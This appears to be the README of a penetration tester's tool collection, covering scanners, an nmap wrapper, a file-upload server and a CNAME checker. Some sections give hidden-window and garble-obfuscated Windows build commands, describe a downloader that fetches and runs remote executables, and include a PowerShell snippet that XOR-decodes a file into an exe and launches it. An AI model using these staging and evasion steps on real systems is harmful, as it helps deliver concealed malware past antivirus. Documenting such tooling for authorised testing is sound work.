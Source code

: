 # Notes
Golang compile with no window
```
GOOS=windows GOARCH=amd64 go build  -ldflags -H=windowsgui -o file.exe file.go
```
Obfuscate build
```
GOOS=windows GOARCH=amd64 ~/go/bin/garble build  -ldflags="-w -s -H=windowsgui" -o file.exe file.go
```

# Anew (python3)

Compares old file to new file, if new file contains lines that dont exist in the old file it will print them to screen for piping into other tools.

# Nessus Merge (python3)

Combines two nessus files into one.

# Hostscan (bash)

Basic scanner for all hosts, can be used as `hostscan.sh 192.168.1.1 "--top-ports 100" "--top-ports 20"` to define the nmap ports you want to scan

# Fileupload, server and client (go)
Small golang script that will allow file uploads to the current dir over https using a baked in key. Client is formatted to perform the upload for you or you can use curl:
```
curl -sk -X POST -H "X-API-Key: Pentest12345" -F "file=@test.txt" -F "filename=test.txt" https://127.0.0.1:8443/files
```

# Multi Downloader (go)
Will try and download an exe from a remote webserver using 4 methods, if any method is successful it will run the file and exit the program, if one fails it will move to the last and finally use certutil (which flags defender) as a last attempt.

# Encode / Decode (go)
## Encode
Encodes a file with xor to file.txt. 
## Decode
Decodes a file.txt with xor to file.exe then runs

## Decode Powershell script
```
$encoded = Get-Content -Path .\file.txt
$decoded = [System.Convert]::FromBase64String($encoded)
$key = [System.Text.Encoding]::ASCII.GetBytes("mysecretkey")
$decodedBytes = for ($i = 0; $i -lt $decoded.Length; $i++) {$decoded[$i] -bxor $key[$i % $key.Length]}
[System.IO.File]::WriteAllBytes(".\file.exe", $decodedBytes)
Start-Process -FilePath .\file.exe
```

# Cname Scanner (go)
Checks  a list of domains from stdin, checks the cname, if the cname does not contain the domain name it prints the domain and the cname.
```
cat domains.txt | go run cnamescanner.go
```

# Get HTTP Response (go)
Script that takes a list of urls from stdin, requests the url and writes the response to a file called responses.txt in the format url,base64encoded(response.body) which is useful for monitoring sites or taking a snapshot of the responses for future tests.

